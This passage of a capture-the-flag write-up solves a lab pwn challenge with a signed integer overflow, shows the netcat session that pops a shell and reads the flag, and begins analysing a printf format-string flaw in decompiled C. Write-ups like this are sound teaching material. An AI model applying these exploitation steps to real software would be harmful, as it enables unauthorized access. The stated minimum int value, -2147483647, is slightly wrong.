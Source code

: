 Basically `local_14` is the value of the added numbers and so we need to make sure they return a value that is less than 0

> In C, the `int` data type is commonly used for representing integers. The `int` type has a finite range, typically from INT_MIN to INT_MAX. If you enter a number that is larger than its size it is converted into negative by the 2’s complement.The negative numbers are made by entering a number higher than the maximum

We need to perform a simple `int` overflow. we know the `int` range is `-2147483647` to `2147483647`. so if we add a value to the highest `int` the sum will go to the opposite side and become a negative.

```shell
2147483647 = 01111111111111111111111111111111

01111111111111111111111111111111 + 1 = 10000000000000000000000000000000
```

Let's try that and cat the flag

```shell
pl4int3xt@archlinux ~/D/p/pwn105> nc 10.10.122.55 9005
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 105          


-------=[ BAD INTEGERS ]=-------
|-< Enter two numbers to add >-|

]>> 2147483647
]>> 1

[*] C: -2147483648
[*] Popped Shell
[*] Switching to interactive mode
ls
flag.txt
pwn105
pwn105.c
cat flag.txt
THM{REDACTED ..}
```

## PWN 106

Let’s decompile the code with ghidra. from the `printf()` we notice that the output is not formatted and so we can format it the way we like and leak addresses in the stack

```c
void main(void){
  long in_FS_OFFSET;
  char local_48 [56];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts(&DAT_00102119);
  printf("Enter your THM username to participate in the giveaway: ");
  read(0,local_48,0x32);
  printf("\nThanks ");
  printf(local_48);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
```